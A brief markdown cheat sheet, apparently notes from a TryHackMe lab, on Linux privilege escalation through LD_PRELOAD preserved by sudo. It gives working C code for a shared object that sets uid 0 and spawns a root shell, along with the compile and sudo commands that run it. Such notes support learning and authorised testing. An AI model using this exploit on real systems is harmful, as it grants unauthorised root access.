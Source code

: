 # Linux Privilege Escalation
**************************************

## Leverage LD_PRELOAD

Check for LD_PRELOAD (with env_keep option)
```
sudo -l
```

Write a simple C code compiled as a share object (.so extension) file

* The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Save this code as shell.c and compile it using gcc into a shared object file using the following parameters
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**************************************
## Reference
* https://tryhackme.com/room/linprivesc

